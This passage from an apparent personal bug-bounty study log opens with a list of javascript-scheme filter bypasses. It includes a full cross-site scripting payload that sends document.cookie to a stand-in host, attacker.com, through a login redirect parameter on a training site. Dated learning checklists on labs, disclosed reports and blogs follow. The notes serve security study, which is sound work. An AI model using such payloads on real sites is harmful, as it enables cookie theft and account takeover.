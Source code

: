 Bypasses

````
				- ja%09vascript
				- ja%0avascript
				- ja%0dvascript
				- http://firstbloodhackers.com/login.php?ref=ja%09vascript:window.location.href=%60http://attacker.com/$%7Bdocument.cookie%7D%60
				- http://firstbloodhackers.com/login.php?ref=ja	vascript:window.location.href=`http://attacker.com/${document.cookie}`
				- %09 -> Tab
				- %60 -> `
				- %7B - > {
				- %7D - }
				- %60 -> `
				
````

- [x] #want to create some usefull tool (if possible) ✅
- [x] #try to do some manual recon on BugBounty program / JS recon ✅
	- www.bugbountytranning.com (recon challenge)

- [x] #leanring about things how web-application works on react-js,Node JS etc..  , Different type of CMS or Etc.. Etc..  
- [x] #try to read 1 intrigity-blog Bug-Bytes per day
- [x] #try to read payload artirst weekly blog 
- [x] #try to read anurag sr news latter
- [x] #try to daily hunt on "fastfoodhacking"
- [x] #read disclosed report

![---------------------------------------------------------](https://raw.githubusercontent.com/andreasbm/readme/master/assets/lines/aqua.png)

Date - 9/11/2021 

- [x] #solve tryhackme room
- [x] #read zseano print book
- [x] #read firstblood1/2 Disclosed report ✅
	- https://www.bugbountyhunter.com/hackevents/report?id=154
	- https://www.bugbountyhunter.com/hackevents/report?id=637
	- https://www.bugbountyhunter.com/hackevents/report?id=465(porte baki a6a)
- [x] #want to create some usefull tool (if possible) ✅
- [x] #try to do some manual recon on BugBounty program / JS recon
- [x] #leanring about things how web-application works on react-js,Node JS etc..  , Different type of CMS or Etc.. Etc..  
- [x] #try to read 1 intrigity-blog Bug-Bytes per day
- [x] #try to read payload artirst weekly blog 
- [x] #try to read anurag sr news latter
- [x] #try to daily hunt on "fastfoodhacking"
- [x] #read disclosed report

![---------------------------------------------------------](https://raw.githubusercontent.com/andreasbm/readme/master/assets/lines/aqua.png)

Date - 10/11/2021 
